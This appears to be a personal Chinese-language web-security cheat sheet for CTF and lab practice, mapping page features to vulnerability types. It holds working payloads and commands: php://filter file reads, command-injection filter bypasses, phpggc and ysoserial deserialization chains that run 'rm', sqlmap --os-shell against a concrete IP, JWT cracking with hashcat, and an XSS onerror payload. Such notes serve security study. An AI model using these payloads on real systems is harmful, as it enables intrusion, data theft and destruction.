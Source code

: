 ## Web安全奇技淫巧

### 请求-响应 思考方向 快速反应

|        网页内容        |            利用方向            |
| :--------------------: | :----------------------------: |
|        文件上传        | 文件上传漏洞，phar反序列化漏洞 |
| XML格式的数据/POST表单 |  XXE 注入/改为XML格式，再XXE   |
|       数据库查询       |            SQL注入             |
|        用户登录        |          身份认证漏洞          |
|  图片等服务器静态资源  |            目录遍历            |
|        授权操作        |          访问控制漏洞          |
|   请求中含有完整链接   |              SSRF              |
|   用户输入渲染到网页   |            XSS,SSTI            |
|      网站的公私钥      |              JWT               |

关注点：

客户端子页面是否有开放的重定向



### 信息收集：

工具需求：

1. 对隐藏文件的目录，文件的探测  如www.zip .gi  index.php~, robots.txt   
2. 隐藏网页的探测
3. 网页注释

工具：

1. Burp Suite

 discover content  配置为短文件，短路径

2. Cansina  ---很大，很笨重

3. 手动配置资产清单，用burpSuite的intruder来访问

4. dirsearch   ``` dirsearch -u url```

   

手动收集：

1. 目录遍历  直接加..

2. 版本泄漏，诸如hg, git, svn什么的，用工具dvcd-ripper 

   1. ```docker run --rm -it -v /Users/fengyuanqiu/Desktop/dcvs-ripper/work:/work:rw k0st/alpine-dvcs-ripper rip-git.pl -v -u http://www.example.org/.git```

3. 假设取得了Webshell，或是可以远程执行代码, 

   1. ```sh 
      find -E . -iregex ".*/[f]+[l]+[a]+[g]+.*" 2>/dev/null | xargs  grep  ".*iscc{.*}.*"  2>/dev/null
      ```

4. php://filter/read=convert.base64-encode/resource= （需要分析源码）



关键函数phpinfo

PHP知识点：

1. array("0"=>array(new classname(),function))  函数数组
2. include 可以执行**PHP伪协议**，协议遵守URL 规范，可以URL编码绕过
3. preg_match，echo 可以触发__toString方法
4. PHP的字符串内，如果要插入变量，可以在字符串中插入$var的方式实现，用双引号
5. eval("var_dump($$flag);"); eval将字符串的内容按照php解析，var_dump解析变量并输出，$flag="GLOBALS",可以输出全局变量
6. exec("id") system("id") 可以用于执行**系统命令**，前者返回内容，后者直接打印内容
7. 比较有用的公开类 GlobIterator：遍历一个文件系统    SplFileObject：读取大文件 

```php
$iterator = new GlobIterator('/path/to/directory/*.php');//返回匹配的文件名
$file = new SplFileObject('/path/to/file.txt', 'r'); //读取相关文件
```





命令行操作：dirsearch , githack

docker执行： dvcd-ripper

### 任意文件上传

1. 读直接取某一个文件 http://127.0.0.1/?p=php://filter/convert.base64-encode/resource=flag
   1. php://filter/read=convert.base64-encode/resource= 读取当前目录下的文件（php, flag）
2. Naginx 配置错误  http://IP:PORT/img../
2. 图片文件可见，可用phar协议，则利用php通用反序列化脚本生成恶意PHP再嵌入到 JPG文件中，再用phar读取
2. 存在include文件包含，exitool工具（或是自定义，直接添加到末尾）将php代码嵌入到图片中，include执行





### SSRF 

Gopher

```shell
gopher://<host>:<port>/<gopher-path>_<TCP数据流>
```





### 命令注入

window 转义字符^

#### 命令执行绕过技巧

空格绕过（空格被过滤）

Windows ：%ProgramFiles:~10,1%

Liniux : 

1. for bash only  {echo,aaa}
2. $IFS$9

黑名单关键字（cat ,flag,<>之类的）

1. 利用变量拼接  linux下``` a=c;b=at;c=he;d=hello; $a$b ${c}${d}```

2. 使用通配符 ``` cat /tm?/fl*```

3. 借助已有文件的字符< >``` echo $(expr substr $(awk NR==1 xxx.php)) 1 1 ```

   

### 反序列化

https://www.freebuf.com/articles/web/276624.html

工具需求：

1. 自动转化序列化和反序列化的代码 支持php java ruby
2. 根据环境，依赖自动构造Gadget Chains链。    Java:ysoserial  PHP：phpggc

使用：

Phpgcc

```sh
./phpggc -l symfony  #查看类 存在漏洞的版本
./phpggc -i symfony/rce1 #查看使用方法
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 
```

Ysoserial 

```sh
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```





服务端模版注入

工具需求：

1. 分别注入点是属于那种模版，并找到对应的模版的命令执行方式，语法

2. 需要一种可以在模版网站上快速搜索相关漏洞使用的方法，比如命令执行，如何新建一个命令执行的类



### SQL注入



```shell
#进入sql命令行界面
python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —sql-shell
#进入shell命令行界面
python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —os-shell

# 添加cookie
—cookie=”security=low;PHPSESSID=121123131”
#对于get方式
-m url.txt ::使用一个包含多个url的文件进行扫描。若有重复，sqlmap会 自动识别成一个。
-u “URL” : 指定URL，get请求方式
#对于POST方式
-r request.txt : Post提交方式
#直接连接数据库
-d : mysql表示数据库类型、user:password表示目标服务器的账号和密 码，@后表示要连接的服务器，3306表示端口，zakq_ dababasename表 示连接的数据库名称
python sqlmap.py -d “mysql://root:root@192.168.126.128:3386/zkaq_databasename”

```

### JWT



1. 暴力破解

   ```shell
   hashcat -a 0 -m 16500 <jwt> <wordlist> #-a -0表示采用密码本暴力破解 -m 16500代表JWT破解
   ```

   

2. 研究破解

   ```shell
   docker run --rm -it portswigger/sig2n <token1> <token2>
   ```





### 字符串绕过

工具需求：

1. 自动生成各种情况下的绕过语句

SQL 夹杂UNION操作

URL 夹杂恶意的域名（SSRF）

文件名绕过 添加.php

Javascript 绕过

PHP 绕过

HTML 绕过

CSP 绕过

```<img src=1 onerror=alert()>```





### web基础知识

1. /var/www/html/是大部分服务器的根目录
1. 中间件
1. WAF工作原理
